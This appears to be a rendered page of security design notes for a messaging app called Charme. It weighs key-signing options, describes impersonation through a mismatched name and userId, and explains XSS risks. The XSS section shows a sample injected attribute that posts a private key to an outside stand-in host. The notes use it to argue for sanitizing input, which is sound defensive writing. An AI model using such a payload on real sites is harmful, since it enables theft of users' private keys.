 \documentclass{scrartcl}
\begin{document}
   \textbf{Using the private key }
   \begin{enumerate}
   \item (Disadvantage) Slower (Factor ca. 1000)
    \item (Advantage) No attackers inside a conversation manipulating username/userId pairs
   \end{enumerate}
   
    \textbf{Using the conversations key }
   \begin{enumerate}
   \item (Disadvantage) Participants can sign conversations for a user
    \item (Advantage) Faster
   \end{enumerate}
   
        

   
     \subsubsection{New Conversations with malicious userId/Name pair }
     An attacker can initiate a new conversation with the name of a friend of you, but use another userId instead. Example:
      \begin{enumerate}
     \item Alice (alice@server.com) and Bob Alice (bob@server.com) are friends
     \item Eve initiates a new conversation with Bob with Name "Alice" and userId eve@server.com. 
     \item Bob thinks he is talking to Alice, but he is not.
     \end{enumerate}
     A solution for this problem would be to allow only names from the key directory.
   \subsubsection{XSS}
   One of the most critical attack vectors in Charme is Cross Site Scripting as with this technique private keys can be stolen.
   Therefore it is important to sanitize all displayed data from other people and servers. Never trust the server. For example imaging data is a JSON Object returned by the server:
   
       \begin{lstlisting}
\$("html").append("<a href='"+data.href+"'>TEST</a>");
    \end{lstlisting}
    
    If the server does not provide a hyperlink for data.href, but rather something like:
          \begin{lstlisting}
#'  onload='$.post("someotherserver.com", {key: theprivatekey})
     \end{lstlisting}
     this is extremly dangerous. Therefore always sanitize data from the server!!!\\
     
\end{document}
